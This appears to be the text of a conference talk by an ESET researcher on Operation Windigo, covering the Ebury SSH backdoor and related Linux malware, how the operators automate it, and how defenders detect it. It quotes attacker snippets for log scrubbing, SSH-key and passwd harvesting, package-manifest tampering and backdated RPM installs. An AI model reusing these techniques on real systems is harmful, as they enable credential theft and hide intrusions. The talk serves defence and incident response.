$ cat ebury_victim_list_iponly.txt
[...]
128.238.xx.xx
128.238.xxx.xx
[...]Are attackers using automation more efficiently than defenders?
Marc-Etienne M.Léveillé, ESET (@marc_etienne_)
:~$ whoami
Marc-Etienne M.Léveillé
Malware Researcher at ESET
Interested in OS X and Linux threats
InfoSec CTF competition fan (former CSAW CTF Finalists)
:~$ whoami
:~$ apropos
What is Operation Windigo?
Automating a dark cloud
Defeating Ebury
Automating defense
:~$ w | grep -v marc-etienne
aka Who are you?
What is Operation Windigo?
Crimeware operation consisting of several malware components — Linux/Ebury, Linux/Cdorked and Perl/Calfbot — where the infrastructure is mostly operated on compromised servers.
Used for traffic redirection and sending spam.
What is Operation Windigo?
Operation Windigo
A joint investigation effort

Big Picture

How does it expand?

End goal ($)
Install malware on Windows end-users
Exploit Kits: Flashpack, Blackhole, RIG
Win32/Glupteba (more spam capability)
Spam
Mostly adult affiliate programs links
Some Casino
Web-site redirections to adult affiliate programs
Impact
25 000+ compromised servers
500 000 browser redirections per day (20% go to exploit packs)
35M+ spam sent per day
Local Impact
Local Impact
$ cat ebury_victim_list.txt
[...]
128.238.xx.xx US POLYTECHNIC UNIVERSITY xxxxxx.poly.edu
128.238.xxx.xx US POLYTECHNIC UNIVERSITY xxxx.isis.poly.edu
[...]Linux/Ebury
OpenSSH backdoor
Replacing original OpenSSH binaries (ssh, sshd, ssh-add)
Then: replaces a shared library and hooks OpenSSH’s address space
Provides a backdoor root shell to the operators
Doesn’t leave traces behind when used
Steals SSH passwords and keys
When connecting to and from the infected machine
Hook imported function

key_parse clean

key_parse hooked

How information is exfiltrated?
Passwords are sent inside a DNS packet with all required information such as username, target IP address and port
Keys are kept in memory and are later fetched by the operators with the
Xcatcommand
98.174.121.19 -> 75.82.52.14 DNS Standard query 0x4cdd A b74bebe10cad6ffe684bf8a1.62.220.51.41Backdoor interaction
To trigger the Linux/Ebury remotely in sshd, a special SSH client version identifier is used
192.27.81.11 -> 78.240.11.44 SSH Server: Protocol (SSH-2.0-OpenSSH_5.3)
78.240.11.44 -> 192.27.81.11 SSH Client: Protocol (SSH-2.0-0861d60b2465c0383076d8233273da)
[11 bytes password][optional 4 bytes command][optional 4 bytes argument]Backdoor interaction (cont.)
5 commands
Xver: print Linux/Ebury version installed
Xcat: print stolen credentials
Xbnd: choose binded IP address for SSH tunnel
Xpsw: set additional 4 byte xor key for future backdoor usage
None: get a shell
Ebury infection map

Ebury infection (top 5)
| Position | Country | Count |
|---|---|---|
1 | United States | 10,065 |
2 | Germany | 2,489 |
3 | France | 1,431 |
4 | Italy | 1,169 |
5 | United Kingdom | 993 |
Others | 9,877 | |
Total | 26,024 |
Who ssh with root?

Linux/Cdorked
httpd/nginx/lighttpd backdoor
Replacing binary on the server
Redirect HTTP request on legitimate web site the exploit packs or affiliate links
Use shared memory (POSIX IPC) for state and configuration
No file on disk
It’s encrypted with a static XOR key unique per infection
Linux/Cdorked Stealth

Linux/Cdorked Stealth (cont.)
Presence and content of Accept, Accept-Language, Referer, User-Agent headers
Presence of administrative panel references in URL
*cpanel*
*secur*
*bill*
etc
It is a web page? (.html, .php, etc)
Did I redirect this client IP address in the last 24 hours?
Cdorked ratio
Only a small percentage of Ebury infected hosts have Cdorked installed.
Linking Cdorked and Ebury
 
Cdorked | Ebury
Perl/Calfbot
Perl spamming daemon
Deletes itself when running, resides only in memory
Hides as
crond
POSIX/Calfbot

Windigo group noteworthy compromises
kernel.org infected at some point in 2011
cPanel support SSH gateway
poly.edu ;)
Why advanced?
Stealth
close to no disk persistence
uses shared memory
hooks into binaries
do not affect existing services
Effective
large number of compromised servers
validates spamming
maximizes available server resources
Automating a dark cloud
DevOps malware operators?
Found very interesting monitoring and deployments scripts
Interesting usage (SSH stream redirections):
cat payload.pl | ssh victim perl # or cat payload.sh | ssh victim bash
Recon / Deployment scripts
Written in Perl
Always reports to
STDOUTErrors
Status
Perl scripts
Not obfuscated
But as readable as Perl can be
Eliminates evidence
`mkdir -p /home/tmpq`; $tfile = '/home/tmpq/q3def';
@blist=`find /var/log -type f -mtime -1 -size +100M -ls`; print @blist if @blist;
@logs=`cat /etc/syslog.conf|grep -vi \"#\"|grep -vi dev`;
foreach (@logs) {$logs{$1}++ if m|.*?(/.+)| and not m|/mail| }
foreach $file (keys %logs) {
next if checktime($file); # print "Check $file\n";
$system="cat $file|egrep -i \"$n_date\"|egrep -i \"$string\""; #print "$system\n";
$test=`$system`; print "Found in $file. Try to correct\n" if $test; next unless $test;
$system="cat $file|egrep -vi \"$n_date\">$tfile;cat $file|egrep \"$n_date\"|egrep -vi \"$string\"\>>$tfile;cat $tfile>$file;rm -f $tfile";
# print "$system\n"; #!
system($system) }Recon scripts
Checks for LD_PRELOAD trickery
Various restrictive
sshconfigurationsBSD jails
if (-l '/bin') {
print "\n\tlALERT!!! /bin is link, seems like bsd jail\n";
$alert++
}CPanel, BRadmin, Nagios ipcs plugin, auditd
Recon (cont)
Generic
sshhoneypots
@sd = `strings /usr/sbin/sshd |grep -e "^/usr/local/libexec"`;
chomp @sd;
if (@sd) { print "\n\tALERT!!! , ".join("|",@sd)."\n" }
my $ppid=getppid;
my $pb=readlink("/proc/$ppid/exe");
if ($pb ne '/usr/sbin/sshd') {
print "\n\tlALERT!!! parent:$pb, $ppid\n";
$alert++
}Recon (cont)
Detects available tools (pkg mgmt, gcc, patch, …)
Check for header files to compile OpenSSH
Check if Ebury is already installed
Recon (cont)
Output
[...]
_#_#_ sysinfo:
_#_#_ uname:Linux 3.2.0-4-amd64 #1 SMP Debian 3.2.46-1 x86_64 GNU/Linux
_#_#_ dname:/etc/debian_version :7.1
_#_#_ issue:Debian GNU/Linux 7 \n \l_
_#_#_ ssh:OpenSSH_6.0p1 Debian-4, OpenSSL 1.0.1e 11 Feb 2013
_#_#_ pkg:/usr/bin/apt-get
_#_#_ gcc:
_#_#_ patch:
_#_#_ bash:/bin/bash
[...]
DEB check: ok
_#_#_ ifconfig:
inet addr:xxx.xx.x.xx
inet addr:127.0.0.1 Mask:255.0.0.0
_#_#_ ifconfig_end
alert:'1'; exitDeployment script
Uses Perl’s DATA to pass files through
ssh
open(TAR,"| tar zxf - $ln $sl");
binmode(DATA);
while(<DATA>) {
print TAR $_;
}
close TAR;
__DATA__
^_<8b>^H^@VÃÇS^@^Cí½ X^TÇÖ0Ü3Ì("0hÀ¨^Q^]^U#î<8e><82>+( è h^@^E<
8c>¸¯<88>^K^Fg^T^W^PÒ`hÚ6ÞKÌÍ¢Ù4Ñ71jbôÆ^]\@<8c>^Z%Æ%j$Æhã<98><88><
9a>¸kÿç<9c>ê<86><81>ÈûÝÿû<9e>÷{<9e>ÿùimªêÔ©Sû©sªjúÌ<9e>9yñâ^^<96>i
<93>¹ÿ¹§;<½^B^BÈ<85>§<86>Û»gïÀî<9c>¥GÏ^<96>Þ^AÝ^CÁßÝbéÙ£^Ggîþ?X¦ÊÇ
>ß6)ÕlæRSRlÿ^]Þÿ*þÿ£Ï²<88>¨Áz<9d>®2ìÂ^Mà0Ô½1^K<87>¨pÿתÒ<84>p}¸zð÷Deployment script (cont)
Altering package management manifests
sub fix_md5 {
my @df = glob("/var/lib/dpkg/info/libkeyutils1*.md5sums");
get_md5();
open( $fh, "<$df" );
my @q = <$fh>;
close $fh;
for (@q) {
$c++ if s|\S+ $d1/$rfile\n|$md5 $d1/$rfile\n|
}
open( $fh, ">$df" );
print $fh @q;
close $fh;
print "md5fix: fixed lines: $c\n";
}Deployment script (cont)
How do you install an rpm in the past?
$install_time = `rpm -q --qf '%{INSTALLTIME}\n' keyutils-libs`
`MYRPMT="$install_time" LD_PRELOAD=./override_time.so
rpm --replacepkgs --replacefiles --noscripts --nosignature -U malicious_libkeyutils_package.rpm`Deployment script (cont)
# rpm --verify keyutils-libs
(no error)
# rpm -qi keyutils-libs
Name : keyutils-libs Relocations: (not relocatable)
Version : 1.4 Vendor: CentOS
Release : 4.el6 Build Date: Fri 22 Jun 2012 02:20:38 AM EDT
Install Date: Mon 27 Jan 2014 06:08:43 AM EST Build Host: c6b10.bsys.dev.centos.org
Group : System Environment/Base Source RPM: keyutils-1.4-4.el6.src.rpm
Size : 59320 License: GPLv2+ and LGPLv2+
Signature : RSA/SHA1, Sun 24 Jun 2012 06:18:51 PM EDT, Key ID 21efc4bf71fbfe7b
URL : http://people.redhat.com/~dhowells/keyutils/
Summary : Key utilities library
Description :
This package provides a wrapper library for the key management facility system
calls.Daily monitoring script
Bash
Grabs keys, known hosts, user ssh configs
echo __% Passwd
cat /etc/passwd
# [...]
ud=`awk -F':' '{print $6}' </etc/passwd|sort -u`;
echo __% KHosts
for f in $ud;do cat $f/.ssh/known_hosts 2>/dev/null;done
echo __% SSHConf
for f in $ud;do cat $f/.ssh/config 2>/dev/null && echo _%__${f};done
echo __% SSHKeys_priv
for f in $ud;do
[ -e $f/.ssh/id_rsa ] && { echo _%__$f/.ssh/id_rsa;cat $f/.ssh/id_rsa;echo; }
[ -e $f/.ssh/id_dsa ] && { echo _%__$f/.ssh/id_dsa;cat $f/.ssh/id_dsa;echo; } doneOther scripts findings
Modifies SELinux policy
Various styles of installation
precompiled libraries
on-site compilation
packages
Looks for over 40 backdoors/rootkits
DevOps malware operators
Manage their infrastructure with code
Pass data in-band with
sshEliminate logs, restore timestamps
Get rid of security features
Defeating Ebury
Same privileges
How to spy on a malicious user with the same privileges?
syslog: omits logging
package manifests: tampered
tcpdump: Ebury stops on
IFF_PROMISC, ssh traffic is encryptedcore dumping processes and shared memory: long
auditd!
auditd
The Linux audit framework provides an auditing system that reliably collects information about any security-relevant (or non-security-relevant) event on a system.
logging syscalls
logs can be sent over the network
auditctl -a exit,always -S execveauditd logs
type=EXECVE msg=audit(1373838239.340:4474200): argc=4 a0="rm" a1="-f" a2="-f" a3="/tmp/q"
type=CWD msg=audit(1373838239.340:4474200): cwd="/home/tmpp/openssh-5.9p1"
type=PATH msg=audit(1373838239.340:4474200): item=0 name="/bin/rm"
\- inode=22282288 dev=08:01 mode=0100755 ouid=0 ogid=0 rdev=00:00
type=PATH msg=audit(1373838239.340:4474200): item=1 name=(null) inode=4456796
\- dev=08:01 mode=0100755 ouid=0 ogid=0 rdev =00:00
type=SYSCALL msg=audit(1373838239.341:4474201): arch=c000003e syscall=59
\- success=yes exit=0 a0=1f29d40 a1=1eec5f0 a2=1f 03ec0 a3=7fffd6be9a60
\- items=2 ppid=13403 pid=21287 auid=501 uid=0 gid=0 euid=0
\- suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty =pts0 ses=128232 comm="touch" exe="/bin/touch" key=(null)
type=EXECVE msg=audit(1373838239.341:4474201): argc=4 a0="touch" a1="-r"
\- a2="/etc/ssh/sshd_config" a3="/etc/ssh/ssh_config"auditd logs (cont.)
On non-ascii arguments it switches to hex
type=EXECVE msg=audit(1373837952.278:4473290): argc=26 a0="gcc" a1="-g"
a2="-O2" a3="-Wall" a4="-Wpointer-arith" a5="-Wuninitialized"
a6="-Wsign-compare" a7="-Wformat-security" a8="-Wno-pointer-sign"
a9="-Wno-unused-result" a10="-fno-strict-aliasing" a11="-fno-builtin-memset"
a12="-fstack-protector-all" a13="-I." a14="-I."
a15=2D445353484449523D222F6574632F73736822 a16=2D445F504154485F5353485F50
524F4752414D3D222F7573722F6C6F63616C2F62696E2F73736822
[...]
a21=2D445F504154485F5353485F5049444449523D222F7661722F72756E22
a22=2D445F504154485F505249565345505F4348524F4F545F4449523D222F7661722F656D70747922
a23="-DHAVE_CONFIG_H" a24="-c" a25="rsa.c"
$ ipython
in [1]: ('2D445F504154485F5353485F504B435331315F48454C504552'
'3D222F7573722F6C6F63616C2F6C6962657865632F7373682D'
'706B637331312D68656C70657222').decode('hex')
Out[2]: '-D_PATH_SSH_PKCS11_HELPER="/usr/local/libexec/ssh-pkcs11-helper"'Going out-of-band
Built a man-in-the-middle ssh gateway
Leaked credentials
Waited…
…
Profit!
As simple as that
/------------ <CLOUD> -------------\
WAN DMZ
Internet <---> gateway <---> Server
(mitm-ssh) (some fake
workload)
/------------ </CLOUD> -------------/What we have learned
Gather system information with perl script
Install Ebury with perl script
Monitor infected servers daily with bash script run from the Ebury backdoor
What about production servers?
Forensics and incident response
Caution
Running at same privilege level
It’s an arm’s race
Aim for out-of-band (network or memory acquisition)
Process analysis
Once you’ve found an interesting process
Dump process memory
gcore pidstrings -a,gdb, IDA Pro
Did you know?
proc allows you to extract deleted executables
# normal
$ sudo ls -l /proc/17902/exe
lrwxrwxrwx 1 root root 0 Sep 26 13:11 /proc/17902/exe -> \
\- /home/olivier/src/nginx-1.5.3/nginx
$ sha1sum /home/olivier/src/nginx-1.5.3/nginx
fbb493f83e67a651ccbbf73a5ad22ca6719c19e4 /home/olivier/src/nginx-1.5.3/nginx
$ sudo rm /home/olivier/src/nginx-1.5.3/nginx
# removed
$ sudo ls -l /proc/17902/exe
lrwxrwxrwx 1 root root 0 Sep 26 13:11 /proc/17902/exe -> \
\- /home/olivier/src/nginx-1.5.3/nginx (deleted)
$ sudo cp /proc/17902/exe ./nginx
$ sha1sum nginx
fbb493f83e67a651ccbbf73a5ad22ca6719c19e4 nginxFinding network level modifications
Audit your iptables NAT table rules
iptables -t nat -L -nviptables-saveFinding network level modifications
Audit your iptables NAT table rules
Rules in the NAT table to bounce traffic of compromised servers
-A PREROUTING -d xx.xx.51.14/32 -p udp -m udp --dport 53 -j DNAT --to-destination xxx.xx.225.200:53
-A POSTROUTING -d xxx.xx.225.200/32 -p udp -m udp --dport 53 -j SNAT --to-source xx.xx.51.14Finding network level modifications
Audit your IP in IP tunnels
ifconfigand look for:Link encap:IPIP Tunnelip tunnel showtunl0: ip/ip remote any local any ttl inherit nopmtudisc tun10: ip/ip remote xx.xx.201.34 local xxx.xxx.232.18 dev eth0 ttl inherit sit0: ipv6/ip remote any local any ttl 64 nopmtudiscip route show
10.12.12.0/30 dev tun10 proto kernel scope link src 10.12.12.2iptables -t nat -L -nvpost-routing source NAT to map tunnel traffic to
eth0IP
Recap
Use out-of-band whenever possible
Dump processes memory and content of
/procbefore killing a processLook for network configuration modifications
Automating defense
Indicators of Compromise
We released so-called IOCs
Arms race
Shared memory
Originally, a shared memory with permission 666 (
rw-rw-rw-) was presentChanged permission to 600 (
rw-------)Doesn’t use shared memory anymore: use Unix socket instead
Arms race
Infected file
Modify system’s
ssh,sshdandssh-addInfect a file system library (
libkeyutils.so)Drop a new library file (
libns2.so), leavinglibkeyutils.sosize unchangedChange the library name
Tracking Calfbot’s spam
Run a modified "inactive" Perl malware
TESTSENDcommand is sent to check if compromised server can send spamImplemented
TESTSENDbut notSENDcommand
There’s no
TESTSENDanymore, more difficult to track
Reaction example


Mitigation
Use two factor authentication
It’s important on a server.
Mitigation
Don’t copy private key if you don’t have to
Closing words
You can help fight this threat!
Spread the word on detection and prevention techniques
Help cleaning infected systems
Send us anything suspect you find!
Closing words
You can help fight this threat!
Original photo: Nick Sherman
:~$ logout
Thanks!
Questions?